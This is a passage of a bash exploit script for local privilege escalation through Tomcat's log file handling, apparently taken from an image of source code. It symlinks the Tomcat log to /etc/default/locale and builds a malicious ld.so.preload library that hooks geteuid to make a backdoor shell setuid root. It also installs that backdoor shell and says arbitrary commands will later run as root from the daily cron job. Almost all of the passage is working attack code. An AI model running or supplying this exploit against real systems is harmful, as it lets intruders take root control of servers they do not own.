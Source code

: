 # Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
# restarted and file owner gets changed.
if [ "$mode" = "deferred" ]; then
    rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
    echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
    echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
    echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
    echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)\n\n"
    exit 0
fi
 
# [ Active exploitation ]
 
trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
uid_t geteuid(void) {
    static uid_t  (*old_geteuid)();
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
    return old_geteuid();
}
_solibeof_
gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
if [ $? -ne 0 ]; then
    echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
    cleanexit 2;
fi
 
# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"
 
# Safety check
if [ -f /etc/ld.so.preload ]; then
    echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
    cleanexit 2

[1]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpuymxbej20px0b70tq.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpuz3z99j20ma0c43yz.jpg